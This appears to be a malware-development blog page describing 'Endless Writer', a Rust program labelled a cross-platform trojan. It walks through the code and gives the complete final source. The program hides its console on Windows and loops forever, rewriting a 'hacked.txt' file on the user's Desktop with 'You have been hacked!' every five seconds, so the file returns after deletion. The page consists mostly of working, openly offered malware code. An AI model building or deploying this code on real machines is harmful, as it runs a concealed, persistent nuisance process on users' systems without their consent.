 ```yaml
---
title: "Endless Writer"
description: "Endless Writer is a simple malware coded in Rust that writes a message to a file on the user's desktop every 5 seconds."
date: 2025-01-06
categories: [
    Malware,
    Trojan,
    Disruptive,
]
tags: [
    _mw_trojan,
    _mw_cross-platform,
    _rust_file-system-operations,
]
# layout: default
---
```


| Malware | Endless Writer |
|---------|----------------|
| Type    | Trojan         |
| Function| File System Operations|
| OS      | Cross Platform |
| Language| Rust           |
| Behavior| `disruptive`   |
| Attack Delivery | Not Applicable |

## 1. Development

### 1.1. Obtaining the target directory

We use `PathBuf` and not just `std::env::var("-homve variable-".unwrap())` as PathBuf treats the obtained path as a path and not just a string. This allows us to use the join method to append the file name to the path.

Cross platform functionality is obtained using the `cfg!` macro. This allows us to check the target operating system and use the appropriate environment variable to get the home directory.

```rust
fn get_target_dir() -> PathBuf{
    let home_dir = if cfg!(target_os = "windows") {
        PathBuf::from(std::env::var("USERPROFILE").unwrap())
    } else {
        PathBuf::from(std::env::var("HOME").unwrap())
    };
    
    let desktop_dir = home_dir.join("Desktop");
    if Path::new(&desktop_dir).exists() && Path::new(&desktop_dir).is_dir() {
        return desktop_dir;
    }
    return home_dir;
}
```

The home directory is used as a fallback if the desktop directory does not exist. This is relevant for systems without a desktop environment.

### 1.2. Writing to the file

The `OpenOptions` struct is used to open the file. The `write` method is used to overwrite the file if it exists. The `create` method is used to create the file if it does not exist.

```rust
loop {
    match OpenOptions::new()
    .write(true)// Overwrite the file
    //.append(true)// append to the file
    .create(true)
    .open(&target_file){
        Ok(mut file) => {
            if let Err(e) = writeln!(file, "{}", MESSAGE){
                eprintln!("Error: {}", e);
            }
        }
        Err(e) => {
            eprintln!("Error: {}", e);
        }
    }
    sleep(Duration::from_secs(5)); // Pause for 5 seconds
}
```

This functionality is within a loop that runs indefinitely. The `sleep` function is used to pause the program for 5 seconds before writing to the file again. This minimizes resource usage.

### Results
- The console is hidden on windows due to the `#![windows_subsystem = "windows"]` attribute.
![Windows Execution](assets/malware/cross_platform/trojan/endless_writer/win-final.png)
- File re-appears every 5 seconds after deletion.
![Video showing the behavior of the Endless Writer Trojan on Linux.](assets/malware/cross_platform/trojan/endless_writer/lin-final.gif)

## Final Code
```rust
#![windows_subsystem = "windows"]

use std::{
    fs::OpenOptions, io::Write, path::{
        Path, 
        PathBuf
    }, thread::sleep, time::Duration
};

const MESSAGE: &str = "You have been hacked!";

fn get_target_dir() -> PathBuf{
    let home_dir = if cfg!(target_os = "windows") {
        PathBuf::from(std::env::var("USERPROFILE").unwrap())
    } else {
        PathBuf::from(std::env::var("HOME").unwrap())
    };
    
    let desktop_dir = home_dir.join("Desktop");
    if Path::new(&desktop_dir).exists() && Path::new(&desktop_dir).is_dir() {
        return desktop_dir;
    }
    return home_dir;
}
fn main() {
    let target_dir= get_target_dir();
    println!("{:?}", target_dir);
    let target_file = target_dir.join("hacked.txt");
    println!(
        "Writing malicious message to {}", // will still output to the console on other platforms
        target_file.display()
    );
    loop {
        match OpenOptions::new()
        .write(true)// Overwrite the file
        //.append(true)// append to the file
        .create(true)
        .open(&target_file){
            Ok(mut file) => {
                if let Err(e) = writeln!(file, "{}", MESSAGE){
                    eprintln!("Error: {}", e);
                }
            }
            Err(e) => {
                eprintln!("Error: {}", e);
            }
        }
        sleep(Duration::from_secs(5)); // Pause for 5 seconds
    }
}
```